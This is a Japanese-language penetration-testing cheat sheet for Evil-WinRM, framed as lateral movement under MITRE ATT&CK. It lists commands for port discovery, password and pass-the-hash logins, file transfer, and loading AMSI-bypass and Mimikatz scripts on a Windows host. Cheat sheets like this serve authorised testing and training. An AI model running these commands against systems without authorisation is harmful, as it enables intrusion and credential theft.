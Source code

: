 ## Evil-WinRM

### 概要

「Windows Remote Management (WinRM)」とは、MicrosoftによるWS-Management Protocolの実装です。
リモートのWindowsサーバーで稼働しているWinRMサービスに接続し、インタラクティブな **PowerShellセッション** を取得できることにより、さまざまなベンダーのハードウェアとオペレーティングシステムの相互運用を可能にし、
システム管理者の負担を軽減することを目指しています。  
一方で、WinRMサービスが有効な被害者のマシンでは、「Lateral Movement（横展開）」に利用可能な方法の一つになります。

MITER ATT&CKの「ATT&CK Matrix for Enterprise」では、以下のように分類されています：

- **Technique**: T1028 - Windows Remote Management
- **Tactics**: TA0008 - Lateral Movement

また、CAPEC（Common Attack Pattern Enumeration and Classification）では、「CAPEC-555: 盗まれた資格情報を使用したリモートサービス」として分類されています。


### WinRM Service Discovery

WinRMサービスが稼働しているポートを確認するために、以下のコマンドを使用します：
```bash
nmap -p5985,5986 <IP>
```
- 5985: プレーンテキストプロトコル
- 5986: 暗号化されたプロトコル

### ログイン
1. **パスワードを使用してログイン**
```bash
evil-winrm -i <IP> -u <user> -p <pass>
```
-S: ポート5986が開いている場合に使用

2. **ハッシュを使用してログイン**
```bash
evil-winrm -i <IP> -u <user> -H <ntlmhash>
```

3. **キーを使用してログイン**
```bash
evil-winrm -i <IP> -c <certificate.pem> -k <priv-key.pem> -S
```
-c: 公開鍵
-k: 秘密鍵
### ログ
ログインしたセッションのログを表示するには、以下のコマンドを使用します：

```bash
evil-winrm -i <IP> -u <user> -p <pass> -l
```
### ファイルのアップロードとダウンロード

1. **ファイルのアップロード**
```bash
upload <file>
```

2. **ファイルのダウンロード**
```bash
download <file> <filepath-kali>
```
パスを毎回指定する必要はありません。


### Kaliロケーションからのファイルの読み込み
Kaliの特定のロケーションからファイルを直接ロードするには、以下のコマンドを使用します：
```bash
evil-winrm -i <IP> -u <user> -p <pass> -s /opt/privsc/powershell
```
ファイルの場所: 場所は異なる場合があります。
例: Bypass-4MSI, Invoke-Mimikatz.ps1, Invoke-Mimikatz

### Evil-WinRM コマンド
1. **コマンドメニューの表示**
```bash
menu
```
コマンドを表示し、実行するコマンドを選択します。

2. **バイナリの実行**
```bash
evil-winrm -i <IP> -u <user> -p <pass> -e /opt/privsc
```
例: Bypass-4MSI, Invoke-Binary /opt/privsc/winPEASx64.exe
